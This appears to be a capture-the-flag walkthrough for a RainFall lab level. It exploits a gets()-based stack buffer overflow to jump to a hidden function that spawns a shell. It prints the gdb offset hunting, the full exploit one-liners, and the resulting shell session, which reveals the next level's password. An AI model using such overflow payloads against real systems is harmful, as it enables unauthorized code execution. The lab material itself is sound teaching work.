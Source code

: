 📘 Buffer Overflow Exploit: Level 1
This is a classic stack-based buffer overflow example that demonstrates how you can redirect program execution to custom code by overflowing a buffer.

⚠️ Vulnerability Summary
The binary uses the unsafe gets() function.

gets() does not check how much input is provided.

So if you input more than the buffer can hold, it will start overwriting adjacent memory — including the saved return address on the stack.

This allows us to control the program's flow after the current function returns.

🧠 Our Goal
There is a hidden function in the binary named run() located at: 0x08048444
This function calls: system("/bin/sh");
💡 If we overwrite the return address to jump to run(), we get a shell as the level1 user.

🔎 Finding the Offset
To exploit this, we first need to know how many bytes it takes to reach the saved return address on the stack.

Step 1: Try 80 characters and check if EIP is overwritten

$ python -c 'print "B" * 80' > /tmp/payload
(gdb) r < /tmp/payload
Output:
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
✅ EIP is overwritten with 0x42 ("B" in ASCII) — good sign.

Step 2: Try 76 characters
$ python -c 'print "B" * 76' > /tmp/payload
(gdb) r < /tmp/payload
Output:
Program received signal SIGILL, Illegal instruction.
0xb7e45400 in __libc_start_main ()
✅ At 76 bytes, we don’t overwrite EIP yet, so offset is exactly 76 bytes.

🛠 Crafting the Exploit
Here’s the working exploit:
(python -c 'import struct; print "A"*76 + struct.pack("<I", 0x08048444)'; cat) | ./level1

🔍 Explanation
python -c '...': We use Python to generate the exploit payload.

"A" * 76: Fills the buffer right up to the return address.

struct.pack("<I", 0x08048444): Packs the address of run() in little-endian format (\x44\x84\x04\x08).
< — little-endian
I — unsigned 4-byte integer

cat: Keeps stdin open — sometimes required if the program reads input again.

| ./level1: Feeds the payload into the vulnerable binary.

✅ What Happens?
gets() reads our input (76 A's + address of run()).

When main() tries to return, it jumps to 0x08048444.

That’s the run() function → which runs system("/bin/sh").


level1@RainFall:~$ (python -c 'import struct; print "A"*76 + struct.pack("<I", 0x08048444)'; cat) | ./level1
or
python -c 'print "B"*76+"\x44\x84\x04\x08"' > /tmp/payload
cat /tmp/payload - | ./level1

Good... Wait what?
./pass
/bin/sh: 1: ./pass: Permission denied
whoami
level2
cat /home/user/level2/.pass            
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

